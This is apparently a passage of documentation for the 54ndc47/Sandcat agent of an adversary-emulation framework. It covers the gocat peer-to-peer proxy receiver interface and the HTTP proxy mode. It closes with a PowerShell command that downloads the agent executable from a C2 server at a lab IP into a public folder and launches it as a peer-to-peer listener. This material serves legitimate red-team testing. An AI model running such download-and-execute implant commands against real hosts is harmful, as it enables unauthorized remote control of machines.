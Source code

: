 The peer-to-peer proxy receiver functionality is defined in the `P2pReceiver` interface in the proxy.go file
within the `proxy` gocat package. Each implementation requires the following:
- Method to initialize the receiver
- Method to run the receiver itself as a go routine (provide the forwarding proxy functionality)
- Methods to update the upstream server and communication implementation
- Method to cleanly terminate the receiver.
- Method to get the local receiver addresses.

## Current Peer-to-Peer Implementations

### HTTP proxy

The 54ndc47 agent currently supports one peer-to-peer proxy: a basic HTTP proxy. Agents that want to use the HTTP
peer-to-peer proxy can connect to the C2 server via an HTTP proxy running on another agent. Agent A can start an
HTTP proxy receiver (essentially a proxy listener) and forward any requests/responses. Because the nature of an
HTTP proxy receiver implies that the running agent will send HTTP requests upstream, an agent must be using the HTTP
c2 protocol in order to successfully provide HTTP proxy receiver services.

The peer-to-peer HTTP client is the same HTTP implementation of the Contact interface, meaning that an agent simply
needs to use the `HTTP` c2 protocol in order to connect to an HTTP proxy receiver.

In order to run an HTTP proxy receiver, the 54ndc47 agent must have the `proxy_http` gocat extension installed.

#### Example commands:

Compiling and running a 54ndc47 agent that supports HTTP receivers:
```
$url="http://192.168.137.122:8888/file/download";
$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows"); 
$wc.Headers.add("file","sandcat.go");
$wc.Headers.add("gocat-extensions","proxy_http");
$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);
C:\Users\Public\sandcat.exe -server http://192.168.137.122:8888 -v -listenP2P
```